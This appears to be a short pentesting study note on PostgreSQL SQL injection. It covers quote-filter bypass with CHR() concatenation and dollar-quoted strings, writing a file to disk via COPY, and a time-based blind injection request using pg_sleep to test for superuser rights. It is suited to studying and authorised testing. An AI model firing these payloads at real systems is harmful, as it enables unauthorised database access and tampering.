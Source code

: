 ```yaml
---
title: Pwning PostgreSQL
tags:
  - advanced
  - web-app
  - pentesting
  - sql
  - postgresql
---
```


## Query quirks

Assume we've discovered a SQL injection vulnerability in a PostgreSQL database and we want to
include string data in our query, but traditional `'` and `"` characters are being filtered. Some
useful tips are that we can use the following PostgreSQL language features to provide arbitrary
characters or bypass quotation restrictions.

### CHR and string concatenation

The `CHR()` and `||` operators allow you to provide arbitrary characters and concatenate them into a
string, for example:

```sql
CREATE TABLE AWAE (offsec text); INSERT INTO AWAE(offsec) VALUES (CHR(65)||CHR(87)||CHR(65)||CHR(69));
SELECT * from AWAE;
```

### Dollar signs and tags

Referencing
[**4.1.2.4** of the PostgreSQL syntax](https://www.postgresql.org/docs/9.2/sql-syntax-lexical.html)
documentation, we can provide `$$` to specify string constants. For example, with the right
permissions, we can use this to write commands to disk:

```sql
CREATE TEMP TABLE AWAE(offsec text);INSERT INTO AWAE(offsec) VALUES ($$test$$);
COPY AWAE(offsec) TO $$C:\Program Files (x86)\PostgreSQL\9.2\data\test.txt$$;
```

## Blind injection and reflections

Assume we think we've found a SQL injection vulnerability in the source code of a target
application, but, because of the nature of the endpoint we're injecting into, the output of our SQL
queries aren't returned to us. If that's the case, we can use built-in PostgreSQL methods like
`sleep(int)` to determine if we have arbitrary query execution. Here's an example:

```sql
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;SELECT+case+when+(SELECT+current_setting($$is_superuser$$))=$$on$$+then+pg_sleep(10)+end;--+
```
